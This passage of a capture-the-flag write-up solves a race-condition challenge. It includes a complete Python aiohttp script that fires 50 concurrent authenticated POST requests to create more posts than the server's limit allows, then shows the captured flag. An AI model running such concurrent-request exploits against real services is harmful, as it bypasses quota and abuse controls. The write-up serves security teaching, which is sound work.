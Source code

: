 Armed with this knowledge, we can create a python script that makes requests concurrently
to create more than 12 posts before the count is greater than 10.

### `solve.py`

```python
import aiohttp
import asyncio

# endpoint to create posts
url = 'http://6a6fc715-3148-439c-97a7-401b124afad5.bugg.cc/user/posts/create'
# get the accesstoken from the cookies upon login
cookies = {
    "accesstoken": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjUyNzQxMzksImlhdCI6MTcyNTI3MzUzOSwicm9sZSI6InVzZXIiLCJ1c2VybmFtZSI6ImgifQ.PT9VM2KV4dSlp3uNTfRuwsJ_3hfaPKaLWNbkZiWt0TQ"
}

# POST Data
post_data = {
    "title": "Race Condition Test",
    "data": "This is the data for the post"
}

async def send_post(session, semaphore):
    async with semaphore:
        async with session.post(url, json=post_data, cookies=cookies) as response:
            text = await response.text()
            print(f"Response: {text}")

async def main():
    concurrency_limit = 100  # Limit the number of concurrent requests
    semaphore = asyncio.Semaphore(concurrency_limit)

    async with aiohttp.ClientSession(connector=aiohttp.TCPConnector(limit=concurrency_limit)) as session:
        tasks = [send_post(session, semaphore) for _ in range(50)]
        await asyncio.gather(*tasks)

# Run the main function
asyncio.run(main())

```

Running `python solve.py` should create more than 12 posts. To verify my claim,
let's try to access `/user/flag` to see if we actually get the flag.


![flag](/images/2024-09-02-11-41-35.png)

And there you go~ Flag is: `CSCTF{d2426fb5-a93a-4cf2-b353-eac8e0e9cf94}`

---

Lessons Learned from this challenge:
